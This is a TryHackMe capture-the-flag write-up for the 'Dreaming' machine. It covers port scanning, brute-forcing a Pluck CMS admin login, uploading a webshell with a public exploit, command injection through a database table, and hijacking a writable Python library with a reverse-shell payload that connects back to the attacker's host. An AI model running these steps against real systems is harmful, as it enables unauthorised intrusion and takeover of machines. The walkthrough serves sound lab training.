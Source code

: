```yaml
---
title: "Dreaming"
url: "/writeups/tryhackme/dreaming/"
summary: dreaming
tags:
- tryhackme
- linux
---
```


![Dreaming](/thm-dreaming.png)

## Scanning
### nmap
Started with an `nmap` scan:

* TCP all ports
```bash
kali@kali:~/ctf/thm/dreaming$ sudo nmap -T4 -p- -oA nmap/tcp_all_ports 10.10.31.54
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/thm/dreaming$ sudo nmap -sCV -p22,80 -oA nmap/tcp_def_scripts 10.10.31.54
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
|   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
|_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
## Enumeration
### Web Page
Found Apache2 Ubuntu Default Page
![Dreaming](/thm-dreaming-apache2_ubuntu_default_page.png)
### gobuster
```bash
kali@kali:~/ctf/thm/dreaming$ sudo gobuster dir -u http://10.10.31.54/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.txt
/app                  (Status: 301) [Size: 308] [--> http://10.10.31.54/app/]
```
### /app
Found pluck-4.7.13/ link that directed to the pluck application
In the application it presents a link to the admin loging page as well
![Dreaming](/thm-dreaming-index_of_app.png)
![Dreaming](/thm-dreaming-pluck.png)
![Dreaming](/thm-dreaming-pluck_login.png)
### searchsploit
```bash
kali@kali:~/ctf/thm/dreaming$ searchsploit pluck 4.7.13
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)             | php/webapps/49909.py
--------------------------------------------------------------------------------- ---------------------------------
```
Found an exploit for the version of Pluck, but needs to be authenticated.
### Authentication Brute Force
Using Burp Suite Intruder the password can be brute forced for the admin user
1. Intercepted a Log in request and sent to Intruder
![Dreaming](/thm-dreaming-burp_intercept.png)
2. Cleared all payload markers then added one only to the `cont1` value
3. Set the Attack mode to Sniper and loaded the Seclists 500-worst-passwords.txt file as the Payload option
4. After starting the attack, based on the Status and Length, the password can be identified as `password`
![Dreaming](/thm-dreaming-burp_intruder_attack.png)
5. Enter in the found password into the Log In form does in fact give access to the Admin portal of the application
![Dreaming](/thm-dreaming-pluck_admin_access.png)

## Exploitation
Copied the found exploit locally and executed it.
```bash
kali@kali:~/ctf/thm/dreaming$ python3 exploit.py 10.10.31.54 80 password '/app/pluck-4.7.13'

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.31.54:80/app/pluck-4.7.13/files/shell.phar
```
A URL is given and when navigating to it presents an interactive webshell as the `www-data` user
![Dreaming](/thm-dreaming-pluck_webshell.png)

## Foothold
### User - lucien
Doing some enumeration via the webshell, the file test.py can be found in the /opt directory
In that file, there is a password vairable with a value that can be used to login as the lucien user
![Dreaming](/thm-dreaming-pluck_webshell_enum.png)
#### SSH
```bash
kali@kali:~/ctf/thm/dreaming$ ssh lucien@10.10.31.54
```
#### User flag
```bash
lucien@dreaming:~$ cat lucien_flag.txt 
THM{TH3_L1BR4R14N}
```
## Privilege Escalation
### User - death

#### sudo -l
Running `sudo -l` as the lucien user show that one file can be executed as the death user
```bash
lucien@dreaming:~$ sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```
Executing this file just shows output of names and what will be known as their dreams.
This file us not readable to the lucien user, so not sure exactly what is happening as of now.

#### mysql
In the lucien home directory there is also a file `.mysql_history` which shows some previous mysql commands as well as a potential mysql database password.
Using `ss`, it can be confirmed that there is a mysql server running on the localhost
```bash
lucien@dreaming:~$ ss -tln
State            Recv-Q           Send-Q                      Local Address:Port                        Peer Address:Port           Process                                    
LISTEN           0                151                             127.0.0.1:3306                             0.0.0.0:*  
```
With the found password the database can be connected to:
```bash
lucien@dreaming:~$ mysql -u lucien -plucien42DBPASSWORD
```
* Looking at previous command and using `SHOW GRANTS`; it can be determined that the lucien user can `INSERT INTO` the dreams table of the library database
* After some initial testing the lucien user is able to add values to the dreams table to the dreams column and the dream column which is what gets printed out by the `getDreams.py` file
* During enumeration it was also identified that there is another `getDreams.py` file which can be read by the lucien user
* Looking at the part of the file of what is printing out, there is a `subprocess.check_output` function being used
* Searching on 'python subprocess check exploit' finds a knowledge base that gives information on how this function can be exploited
    * https://knowledge-base.secureflag.com/vulnerabilities/code_injection/os_command_injection_python.html

Using the below mysql command shows the database password used by the death user which can also be used to log into their account
```mysql
mysql> INSERT INTO dreams (dreamer, dream) VALUES ('whoami', 'TEST2; cat /home/death/getDreams.py);
```

```bash
lucien@dreaming:~$ su death
```

#### User flag
```bash
death@dreaming:~$ cat death_flag.txt 
THM{1M_TH3R3_4_TH3M}
```

### User - morpheus
* During enumeration it was identified that the `shutil.py` file had a group ownership by the user death. This can be verified running the command `find / -group death 2>/dev/null`
* In the morpheus user home directory there is a `restore.py` file that makes use of the `copy2` function from the `shutil.py` package.
* Since the `shutil.py` file can be written to by the death user, a payload for a reverse shell can be added into the `copy2` function.
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.12.234",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
After starting a `netcat` listener (`nc -lvnp 4444`) and waiting a minute a reverse shell is returned and now have access as the morpheus user.

#### User Flag
```bash
morpheus@dreaming:~$ cat morpheus_flag.txt  
THM{DR34MS_5H4P3_TH3_W0RLD}
```
